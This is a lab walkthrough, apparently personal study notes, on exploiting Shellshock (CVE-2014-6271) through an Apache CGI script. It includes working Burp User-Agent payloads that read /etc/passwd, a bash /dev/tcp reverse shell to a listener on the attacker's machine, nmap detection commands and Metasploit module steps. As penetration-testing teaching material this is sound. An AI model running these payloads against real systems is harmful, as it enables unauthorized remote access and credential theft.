 # Exploiting Shellshock
>Shellshock, also known as Bashdoor, is a family of security bugs in the widely used Unix Bash shell, the first of which was disclosed on 24 September 2014. Many Internet-facing services, such as some web server deployments, use Bash to process certain requests, allowing an attacker to cause vulnerable versions of Bash to execute arbitrary commands. This can allow an attacker to gain unauthorized access to a computer system.
> 
> In the context of Apache web server, we can utilize any legitimate CGI scripts accessible on the server. Whenever a CGI script is executed, the web server will initiate a new process and run the CGI script with Bash. This vulnerability can be exploited both manually (through a proxy like Burp) and automatically with the use of an MSF exploit module.
 
1. This vulnerability existed in older versions of Bash. 
2. In the context of remote exploitation, Apache web servers configured to run **_CGI scripts_** or **_.sh scripts_** are vulnerable to this attack.  
  a. The first service vulnerability: Apache  
  b. The second service vulnerability: Bash  

## Contents 
- [Intro](#intro)
  - [CVE-2014-6271 (Shellshock | Bashdoor)](#cve-2014-6271-shellshock--bashdoor)
  - [Shellshock Details](#shellshock-details)
  - [Shellshock Exploitation](#shellshock-exploitation)
- [Manual Exploit](#manual-exploit)
  - [Initial Scan & Observation](#initial-scan--observation)
  - [NSE: Check Vulnerability](#nse-check-vulnerability)
  - [Burp Suite](#burp-suite)
- [MetaSploit](#metasploit)

## Intro

### [CVE-2014-6271](https://github.com/opsxcq/exploit-CVE-2014-6271) (Shellshock | Bashdoor)
- Shellshock (CVE-2014-6271) is the name given to a family of vulnerabilities in the Bash shell (since v1.3) that allow an attacker to execute remote arbitrary commands via Bash, consquently allowing the attacker to obtain remote access to the target system via a reverse shell.
- The Shellschock vulnerability was discovered by Stephane Chazelas on 09/12/2014 and was made public on 09/24/2014.
- Bash is a a *Nix shell that is part of the GNU project and is the default shell for most Linux distros.
- Not very common anymore since most distros have updated the Bash shell. But... you never know.

### Shellshock Details
- The Shellshock vulnerability is caused by a vulnerability in Bash, whereby Bash mistakenly executes trailing commands after a series of characters:
```
( )  {  : ;  } ; echo; echo; [command];
```
- This vulnerability only affects Linux since Windows does not use Bash and since Windows is not a *Nix-based operating system.
- In the context of remote exploitation, Apache web servers configured to run CGI scripts or .sh scripts are also vulnerable to this attack.
  - CGI: Common Gateway Protocol
  - CGI scripts are used by Apache to execute arbitrary commands on the Linux system, after which the output is displayed to the client (results displayed on the web site/page).
- In Apache, CGI scripts are executed (usually, by default) through a Bash shell.
  - Exploit: include the above trailing characters and follow that with malicious Bash script/code.
 
### Shellshock Exploitation
- **KEY:** In order to exploit this vulnerability, you will need to locate an input vector or script that allows you to communicate with Bash.
- In the context of Apache web server, we can utilize any legitimate **_CGI scripts_** accessible on the server.
- Whenever a CGI script is executed, the web server will initiate a new process and run the CGI script with Bash.
  - If the version of Bash that runs the CGI script is vulnerable, you can exploit it.
- This vulnerability can be exploited both manually (through a proxy like Burp) and automatically with the use of an MSF exploit module.

## Manual Exploit
> The following is from a lab. All of the lab-specific context is retained in order to show the flow of execution, etc. 

### Initial Scan & Observation
- Start with a normal scan of your target system (`-sV`)
  - Apache http server on port 80 (and not much else)
  - confirm it with a broswer (open it up and look at it)
- OBSERVE: On the index page there is a dynamic countdown time stamp.
  - How do they get the time and the countdown to display?
  - This is being accomplished through the use of a CGI script.
  - "View Page Source" will show you the script that is called: `/gettime.cgi`
  - The initial forward slash lets us know the script is stored in the root directory of the web server.
    - This means the script is publicly accessible (just like index.html, et al, that sit in the root directory).
  - So do this: In the URL box of the browser: `[target ip]/gettime.cgi`
    - This will display the results of the script to the client.
    - **_The CGI script is executing commands with Bash_** and then displaying the results of the command executionin the browser window for the client.

### NSE: Check Vulnerability
- Check to see if the server is vulnerable to the Shellshock attack with an NSE script.
```
nmap -sV --script http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" [target ip]
# or (both work the same)
nmap -sV --script http-shellshock --script-args uri=/gettime.cgi  [target ip]
```

### Burp Suite
> We are going to test the target machine first to see if the vulnerability exists.
> Then we are going to get a reverse shell on the target system. 

#### Start the Proxy & Burp
- Use the FoxyProxy Firefox extension to turn the browser proxy on and off.
  - This sets BurpSuite as a proxy and all traffic through Firefox (between Firefox and the target) will go through Burp.
- Open BurpSuite: Kali menu... Web Application Analysis... BurpSuite.
  - "Next" on the Temporary Project
  - "Start Burp" (with default configs)
  - Disregard the nag pop-up
- In Burp: Click on the "Proxy" tab and check to make sure "Intercept is on" is ON.
  - You can "Forward" anything sitting in queue before we get going.

#### Back to Firefox
- Reload the cgi script (the page: `[target ip]/gettime.cgi`)
- This will GET the page and hold it in the proxy (Burp) until we forward it to the browser

#### Burp Grabbed the Request
- Go back into Burp and you should see the proxy grabbed it.
- We are going to be injecting our special characters into the http header.
- Right-click in the "Raw" tab (where your request was held in queue) and "Send to Repeater"
- Click on the "Repeater" tab

#### Burp :: Repeater
- In the Repeater tab in Burp: delete the current "User-Agent:" information (following the colon, not "User-Agent:").
- Replace that with our own command.  EXAMPLE
- Type in: `() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'`
- Send that request with Repeater by clicking the "Send" button.
- You should see a Reponse in the Response window on the right side of the Repeater screen
  - If it worked, you should see the contents of the passwd file on the target displayed in the Response window of Repater in Burp.
 
#### Reverse Shell: Listener
- Set up your listener:
```
nc -nvlp 1234
```
- `-n`        no DNS lookups (we're using IPs, not domain names)
- `-v`        verbose output
- `-l`        listener
- `-p 1234`   port the listener should listen on for incoming calls...

#### Reverse Shell: Burp
- Back in Burp, send the comand for the reverse shell:
```
User-Agent: () { :; }; echo; echo; /bin/bash/ -c 'bash -i >&/dev/tcp/[kali ip]/1234 0>&1'
```
- Initialate an interactive Bash session and send it to our Kali listener; the redirect stdin (keyboard) to the same destination as stdout (display; which has been sent to our Kali listener).

#### Reverse Shell: Kali
- Back in your Kali attack machine, you should have an interactive Bash shell on the target machine. Some commands to run to figure out what you have: `whoami`, `cat /etc/*issue`, `cat /etc/release`, `uname -a`

## MetaSploit
- Crank up msfconsole and the postgresql db if needed. Remember to turn off FoxyProxy and close Burp
```
service postgresql status|start
msfconsole
> search shellshock
  # The auxiliary module is a scanner that will tell you whether or not the server is vulnerable to Shellshock
  # The exploit module for "Variable Code Injection"
  # use the exploit module: exploit/multi/http/apache_mod_cgi_bash_env_exec
> show options
  # You need to set RHOSTS to [target ip]
  # You need to set TARGETURI to    /gettime.cgi
  # Everything else should be okay with defaults
> run
  # That should give you a meterpreter session on the target system
  # Check with sysinfo and getuid
```
- Your next practical step would be privilege escalation. 

